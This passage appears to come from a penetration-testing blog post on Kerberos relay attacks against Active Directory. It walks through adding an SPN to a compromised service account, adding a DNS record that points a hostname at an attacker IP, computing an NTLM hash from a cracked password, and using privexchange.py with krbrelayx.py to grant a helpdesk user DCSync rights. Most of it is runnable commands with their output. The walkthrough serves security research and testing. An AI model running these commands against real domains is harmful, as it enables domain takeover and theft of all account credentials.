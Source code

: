 This requires two things:
- The password of the service account
- Delegated control over the service account object

The password for the service account could have been previously obtained using a Kerberoast or password spraying attack. Delegated control over the account is required to add an SPN to the account, this control could be present because the service account is part of an Organisational Unit over which control was delegated to a sysadmin, or because we compromised an account in a high privilege group, such as Account Operators.

In this scenario we have control over a `helpdesk` user, which has been delegated the rights to manage users in the `Service Accounts` OU. We also discovered that the service account `sqlserv` has the weak password `Internal01` set. This service account only has an SPN for the MSSQL service running on `database.internal.corp`. Since we want to escalate privileges via Exchange with PrivExchange, which connects over HTTP, we add a new SPN using this account for `http/evil.internal.corp`:

```
user@localhost:~/krbrelayx$ python addspn.py -u icorp\\helpdesk -p Welkom01 -t sqlserv -s http/evil.internal.corp -q icorp-dc.internal.corp
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=sqlserv,OU=Service Accounts,DC=internal,DC=corp - STATUS: Read - READ TIME: 2019-01-27T15:26:16.580450
    sAMAccountName: sqlserv
    servicePrincipalName: MSSQL/database.internal.corp
user@localhost:~/krbrelayx$ python addspn.py -u icorp\\helpdesk -p Welkom01 -t sqlserv -s http/evil.internal.corp icorp-dc.internal.corp
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```
As with the previous attack we add a DNS record to point to our attackers IP:
```
user@localhost:~/krbrelayx$ python dnstool.py -u icorp\\helpdesk -p Welkom01 -r evil.internal.corp -d 192.168.111.87 --action add icorp-dc.internal.corp 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Now we can start krbrelayx.py. Since we are working with a user account, by default tickets will be encrypted with RC4, so we need to calculate the NTLM hash of the password in order to decrypt them (we don't need to bother with a Kerberos salt here because RC4 doesn't use one).
```python
import hashlib
print(hashlib.new('md4', 'Internal01'.encode('utf-16le')).hexdigest())
```
This hash we can pass to krbrelayx.py and we can start the server. This time instead of exporting the ticket we use it directly to connect to LDAP and grant our helpdesk user DCSync privileges using the `-t ldap://icorp-dc.internal.corp` flag. We run `privexchange.py` and `krbrelayx.py` at the same time:
```
user@localhost:~/privexchange$ python privexchange.py -u helpdesk -p Welkom01 -ah evil.internal.corp exchange.internal.corp -d internal.corp
INFO: Using attacker URL: http://evil.internal.corp/privexchange/
INFO: Exchange returned HTTP status 200 - authentication was OK
INFO: API call was successful
```
And see the attack doing it's work in a very similar way to ntlmrelayx:
```
user@localhost:~/krbrelayx$ sudo python krbrelayx.py -hashes aad3b435b51404eeaad3b435b51404ee:d3026ba6ef6215da295175934b3d0e09 -t ldap://icorp-dc.internal.corp --escalate-user helpdesk
```
